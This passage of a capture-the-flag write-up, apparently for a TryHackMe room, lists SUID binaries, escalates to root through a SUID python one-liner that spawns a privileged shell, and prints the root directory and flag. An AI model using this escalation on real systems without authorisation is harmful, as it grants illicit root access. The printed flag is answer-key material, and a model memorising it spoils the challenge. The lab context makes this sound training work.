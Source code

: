 ```shell
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

### Escalate privileges with SUID python

As Python has SUID, we can use it to spawn an `-p` privileged shell.

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### Get root flag

```shell
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# who
who
# whoami
whoami
root
# cd /root
cd /root
# ls -lah
ls -lah
total 40K
drwx------  6 root root 4.0K Aug  4 17:54 .
drwxr-xr-x 24 root root 4.0K Aug  4 14:54 ..
-rw-------  1 root root 1.4K Aug  4 17:54 .bash_history
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  2 root root 4.0K Aug  4 17:08 .cache
drwx------  3 root root 4.0K Aug  4 17:08 .gnupg
drwxr-xr-x  3 root root 4.0K Aug  4 16:26 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4.0K Aug  4 15:03 .ssh
-rw-r--r--  1 root root   26 Aug  4 17:31 root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```